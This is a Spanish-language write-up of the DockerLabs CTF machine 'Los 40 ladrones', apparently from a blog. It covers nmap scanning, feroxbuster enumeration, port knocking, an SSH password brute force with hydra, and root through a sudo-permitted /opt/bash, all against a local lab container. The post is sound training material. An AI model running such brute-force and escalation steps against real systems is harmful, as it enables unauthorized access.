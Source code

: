 ```yaml
---
layout: post
title: Los 40 ladrones
date: 2024.07.04
categories: [dockerlabs, ctf, linux, facil]
---
```


![image](/assets/images/los40/los40.jpg)

Estamos ante un docker que contiene una distribución Linux. Es de nivel fácil y es de la plataforma [dockerlabs](https://dockerlabs.es).

# Enumeración

Ponemos el docker en marcha con el `auto_deploy.sh` que trae el zip. Cuando termina de cargar nos indica la dirección IP de nuestra víctima, en nuestro caso es `172.17.0.2`. 

Empezamos realizando un escaneo de puertos con `nmap`. Hacemos un escaneo silencioso`-sS`, a todos los puertos `-p-`, que nos de detalles del escaneo `-v`, que no haga ping al host `-Pn`, que no haga resolución de DNS `-n` a nuestra máquina victima `172.17.0.2`:

```bash
$ sudo nmap -sS -p- -Pn -n -v 172.17.0.2
PORT   STATE SERVICE
80/tcp open  http
```

Vemos que solo tiene el puerto **80** abierto. Vamos a realizar otro escaneo con `nmap` pero esta vez para detectar la versión del servicio que este corriendo, `-sV`, y para ejecutar los scripts por defecto para detectar vulnerabilidades, `-sC`:

```bash
$ sudo nmap -sCV -p80 -v 172.17.0.2
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
```

Vemos que la web es una página por defecto de la instalación de apache. Buscamos directorios y ficheros en el servidor con **feroxbuster**. Buscamos las extensiones **php**, **html** y **txt**:

```bash
$ feroxbuster -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -r -d 2 -x php,html,txt
200      GET      367l      977w    10792c http://172.17.0.2/index.html
200      GET       22l      105w     5952c http://172.17.0.2/icons/ubuntu-logo.png
200      GET      367l      977w    10792c http://172.17.0.2/200      GET        3l       20w      111c http://172.17.0.2/qdefense.txt
```

Encontramos un fichero llamado **qdefense.txt**. Lo descargamos y leemos su contenido:

```bash
$ curl http://172.17.0.2/qdefense.txt
Recuerda llama antes de entrar , no seas como toctoc el maleducado
7000 8000 9000
busca y llama +54 2933574639
```

De el fichero obtenemos que hay un user llamado **toctoc** y una secuencia de números que puede ser una secuencia de **Port Knocking.**  El port knocking es un mecanismo para abrir puertos externamente en un firewall mediante una secuencia preestablecida de intentos de conexión a puertos que se encuentran cerrados. Una vez que el firewall recibe una secuencia de conexión correcta, sus reglas son modificadas para permitir al host que realizó los intentos conectarse a un puerto específico. 

Para instalar en kali el comando knock realizamos lo siguiente: `sudo apt update && sudo apt install -y knockd`

Después golpeamos los puertos en la secuencia que hemos visto:

```bash
$ knock -v 172.17.0.2 7000 8000 9000
hitting tcp 172.17.0.2:7000
hitting tcp 172.17.0.2:8000
hitting tcp 172.17.0.2:9000
```

Realizamos un nuevo escaneo de puertos:

```bash
$ sudo nmap -sS -p- -Pn -n -v 172.17.0.2
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Ahora ya tenemos el puerto **22** abierto. Como tenemos un user del sistema vamos a probar a buscar la contraseña de dicho usuario con **hydra**:

```bash
$ hydra -l toctoc -P /usr/share/wordlists/rockyou.txt -t 64 -VIf ssh://172.17.0.2
...
826 of 14344401 [child 12] (0/2)
[22][ssh] host: 172.17.0.2   login: toctoc   password: kittycat
[STATUS] attack finished for 172.17.0.2 (valid pair found)
```

Nos conectamos con la password recién encontrada: 

```bash
$ ssh toctoc@172.17.0.2                 
toctoc@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.8.11-amd64 x86_64)
```

Vemos si el usuario toctoc puede ejecutar algún comando como **root**:

```bash
toctoc@50a589993c7e:~$ sudo -l
Matching Defaults entries for toctoc on 50a589993c7e:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User toctoc may run the following commands on 50a589993c7e:
    (ALL : NOPASSWD) /opt/bash
    (ALL : NOPASSWD) /ahora/noesta/function
toctoc@50a589993c7e:~$
```

Puede ejecutar /opt/bash como root. Como sabemos ejecutando `/opt/bash -p` podemos obtener acceso como **root**. El problema es que en /opt no hay ningún fichero. 

Buscamos por el sistema en busca de algún fichero y encontramos lo siguiente en el fichero **.bashrc**:

```bash
function backdoor(){
        echo 'Tal vez una puerta trasera poco discreta'
        echo '5432 3629 9123'
        echo 'Aparecio......'
}
```

Volvemos a “tocar” los puertos que nos indica:

```bash
$ knock -v 172.17.0.2 5432 3629 9123
hitting tcp 172.17.0.2:5432
hitting tcp 172.17.0.2:3629
hitting tcp 172.17.0.2:9123
```

Y haciendo un listado de **/opt** vemos que ahora si está **bash**:

```bash
toctoc@50a589993c7e:~$ ls -la /opt/
total 1424
drwxr-xr-x 1 root root    4096 Jul  6 05:58 .
drwxr-xr-x 1 root root    4096 Jul  6 05:38 ..
-rwsr-S--- 1 root root 1446024 Jul  6 05:58 bash
```

Lo ejecutamos como **root**: 

```bash
toctoc@50a589993c7e:~$ sudo /opt/bash -p
root@50a589993c7e:/home/toctoc# whoami; hostname; date
root
50a589993c7e
Fri Jul  5 08:20:09 +10 2024
```